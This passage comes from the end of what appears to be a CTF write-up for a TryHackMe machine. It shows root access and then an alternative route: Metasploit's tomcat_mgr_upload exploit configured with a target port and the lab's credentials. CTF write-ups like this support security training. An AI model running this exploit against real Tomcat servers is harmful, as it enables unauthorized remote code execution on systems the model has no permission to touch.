 We are now a root user (It seldom happen in most of the CTF challenge).

Capture the flag and finish the challenge

## Part 7: Metasploit (alternative)

here is another way to capture the root. Googling [tomcat and coyote](https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote) exploitation provide us another choice.

Launch your Metasploit and configure with the following parameter.

```
msf5> use exploit/multi/http/tomcat_mgr_upload
msf5> set RPORT 1234
msf5> set RHOST <Machine IP>
msf5> set HttpPassword bubbles
msf5> set HttpUsername bob
```

Always check with the options, if you are not really sure.

![metsaploit alt](/assets/images/THM/2020-08-11-toolsrus/21.png)

## Conclusion

That's all for today CTF write-up. Hope you learn something new. See you again ;)
